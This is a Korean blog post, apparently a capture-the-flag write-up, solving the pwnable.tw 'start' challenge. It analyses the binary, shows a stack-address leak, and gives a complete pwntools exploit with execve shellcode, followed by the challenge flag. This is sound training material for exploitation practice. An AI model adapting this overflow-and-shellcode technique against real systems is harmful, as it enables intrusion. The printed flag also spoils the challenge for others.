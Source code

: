 ```yaml
---
layout: post
title: "[pwnable.tw] start 풀이"
date: 2018-05-25 04:44
categories: "[Pwn]pwnable.tw"
tags: rotles98
---
```

>## Start [100 pts]
### Just a start.
### `nc chall.pwnable.tw 10000`
### [start](https://pwnable.tw/static/chall/start)

- - -
# 0x00. 분석

{: refdef: style="text-align: center;"}
![file](/img/pwnable.tw/start/01.png)
{: refdef}

32bit고 보호기법은 안 걸려있네요!

{: refdef: style="text-align: center;"}
![disassemble](/img/pwnable.tw/start/02.png)
{: refdef}

IDA로 열어 보면 `_start`밖에 없는 간단한 프로그램 입니다.

int 0x80을 사용해 함수를 호출하는데

[<U>이 사이트</U>](https://syscalls.kernelgrok.com)를 보면 int 0x80에서 레지스터가 어떻게 사용되는지 알 수 있어요.

```c
char buf[14] = "Let's start the CTF:"

write(1, buf, 0x14);
read(1, buf, 0x3C);
```

대충 c언어로 바꿔보면 위처럼 나오네여.

- - -
# 0x01. 공격 방법

자, 이제 생각해봅시다아아.

딱 봐도 bof가 가능하겠네요!

음... NX가 안걸려있으니까 쉘코드를 사용할게요.

1. 스택 주소 구하기

2. 스택에 쉘코드 삽입

3. 해당 주소로 리턴

이 순서로 공격할게요.

- - -
# 0x02. 정보 수집

## 1. 스택 주소 구하기

```asm
push "Let's start the CTF:"
mov ecx, esp
mov dl, 14h
mov bl, 1
mov al, 4
int 80h
xor ebx, ebx
mov dl, 3Ch
mov al, 3
int 80h
add esp, 14h
retn
```

`read`는 끝나면 `add esp, 14h`로 스택을 정리해주네여.

그럼 `read`가 끝나고 스택도 정리한 후에 다시 `write`를 실행시키면 정리된 스택이 출력되고 다시 그 부분부터 `read`가 또 실행될거에여.

호다다닥 해봅시다.

```python
from pwn import *
context.log_level = "debug"

s = remote("localhost", 4444)

s.recv()

dummy = "A"*0x14

payload = dummy
payload += p32(0x08048087)

s.send(payload)
```

{: refdef: style="text-align: center;"}
![stack_leak](/img/pwnable.tw/start/03.png)
{: refdef}

누가봐도 스택처럼 생긴 `0xffae9020`이 바로 나와주네요!

혹시 모르니 gdb로 맞는지 확인해 봅시닷.

{: refdef: style="text-align: center;"}
![gdb_check](/img/pwnable.tw/start/04.png)
{: refdef}

- - -
# 0x03. 익스플로잇

24byte 쉘코드를 사용했습니다아아.

```python
from pwn import *
#context.log_level = "debug"

#HOST = "localhost"
HOST = "chall.pwnable.tw"
#PORT = 4444
PORT = 10000

s = remote(HOST, PORT)

elf = ELF("./start")
#libc = ELF("./")
pause()

main_addr = 0x08048060
func_write = 0x08048087

shell = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
shell += "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99"
shell += "\xb0\x0b\xcd\x80"

dummy = "A"*20

payload = dummy
payload += p32(func_write)

s.recvuntil("Let's start the CTF:")
s.send(payload)

stack_addr = u32(s.recv(4))
s.recv()
print "[*] stack_addr : " + hex(stack_addr)

payload = dummy
payload += p32(stack_addr + 0x14)
payload += shell

s.send(payload)

s.interactive()
```

### FLAG{Pwn4bl3_tW_1s_y0ur_st4rt}